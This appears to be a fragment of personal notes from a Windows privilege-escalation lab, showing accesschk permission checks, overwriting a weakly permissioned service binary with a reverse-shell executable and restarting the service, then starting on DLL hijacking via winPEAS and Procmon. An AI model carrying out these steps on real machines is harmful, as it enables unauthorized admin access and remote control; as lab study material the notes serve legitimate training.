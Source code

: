 ![filepermsvc](image-7.png)

using acceschk

```bash
C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
C:\PrivEsc\accesschk.exe /accepteula -uvqc filepermsvc
# we have start access
```

backup the file then change it with ur reverse.exe

```bash
copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y

net start filepermsvc
```

## DLL Hijacking

From winPEAS output we can see list of no-microsoft services
and the `check for DLL Hijacking in Path folders` we have write permission in `C:\Temp`

1. Check if u have write permissions in PATH folders
2. Check which services u have start and stop permission `accesschk.exe /accepteula -uvqc user dllsvc`
3. pick the binary to ur machine where u have admin privilege for analysis `Procmon64.exe`
![pocmon64](image-8.png)
